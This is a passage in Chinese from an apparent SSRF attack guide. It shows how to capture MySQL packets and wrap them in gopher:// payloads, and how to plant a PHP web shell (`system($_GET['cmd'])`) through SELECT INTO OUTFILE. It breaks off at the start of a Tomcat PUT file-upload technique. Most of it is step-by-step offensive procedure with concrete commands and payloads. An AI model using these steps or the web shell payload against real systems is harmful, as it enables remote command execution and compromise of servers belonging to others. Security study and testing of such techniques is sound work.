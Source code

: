 1.  **捕获 MySQL 流量：**
    * 在您可以本地连接到 MySQL 服务器 (或与目标版本相同的服务器) 的计算机上使用 `tcpdump` 捕获简单查询的原始网络流量。
    * 示例：`sudo tcpdump -i lo -w mysql.pcapng port 3306` (在回环接口上监听)。
2.  **执行示例查询：**
    * 在 `tcpdump` 运行时，连接到您的本地/测试 MySQL 并执行所需的查询。强制使用简单密码模式或禁用 SSL 可能会简化捕获的数据包。
    * 示例：`mysql -h127.0.0.1 -uroot --ssl-mode=DISABLED -e "show databases;"`
3.  **分析捕获的数据包：**
    * 在 Wireshark 中打开 `mysql.pcapng`。
    * 跟踪 MySQL 连接的 TCP 流 (通常以客户端握手、服务器问候、然后是登录请求、然后是查询请求开始)。
    * 隔离发送您的查询 (例如，“show databases;”) 的**请求数据包**。
    * 提取此数据包的**原始十六进制数据**。
4.  **准备 Gopher 载荷：**
    * 从十六进制数据中删除任何换行符或格式。
    * gopher 的载荷是原始数据包数据，通常进行 URL 编码。通常仍需要前导下划线 `_`。
    * 示例结构：`gopher://<内部MySQL IP>:3306/_<十六进制编码的MySQL数据包数据>`
5.  **简化工具：**
    * 像 **tarunkant/Gopherus** 这样的工具可以自动为包括 MySQL 在内的各种服务生成 gopher 载荷。

---

### 11. SSRF 到 MySQL：写入 Web Shell (文件输出) ✍️

**核心原理：**

如果 (SSRF 连接所使用的) MySQL 用户具有 `FILE` 权限，并且您知道一个 Web 可写目录，则可以使用 `SELECT ... INTO OUTFILE` 或 `SELECT ... INTO DUMPFILE` 将 Web Shell 写入服务器。

**先决条件：**

* SSRF 到 MySQL (如第 10 点所述)。
* MySQL 用户具有 `FILE` 权限。
* 了解目标服务器上 MySQL 可以写入的 Web 可访问目录。
* MySQL 变量 `secure_file_priv` 必须允许写入目标路径 (如果为空，则允许在任何地方写入；如果是特定路径，则只能在该路径下写入；如果为 `NULL`，则禁用 `INTO OUTFILE`)。

**执行步骤：**

1.  **检查 `secure_file_priv` (如果可以通过初始查询进行)：**
    * SQL 查询：`show variables like '%secure_file_priv%';`
2.  **构造写入 Web Shell 的查询：**
    * SQL 查询：`select "<?php system($_GET['cmd']);?>" into outfile '/var/www/html/shell.php';`
        * 将 `/var/www/html/shell.php` 替换为正确的 Web 可写路径和所需的 shell 文件名。
3.  **通过 SSRF/Gopher 传递：**
    * 将此 SQL 查询转换为 MySQL 数据包，并使用第 10 点中描述的 gopher 方法传递它。

---

### 12. SSRF 到 Tomcat：文件写入 (PUT 请求) (Tomcat)

**核心原理：**

Apache Tomcat 的某些配置（如果未正确保护，例如 `DefaultServlet` 的 `readonly` 初始化参数设置为 `false`）允许通过 HTTP PUT 请求进行任意文件上传。SSRF 漏洞可用于向内部 Tomcat 服务器发送此类 PUT 请求。

**载荷构造 (概念性的 HTTP PUT - 需要包装在 Gopher 中或在 SSRF 允许原始 HTTP POST/PUT 时直接发送)：**
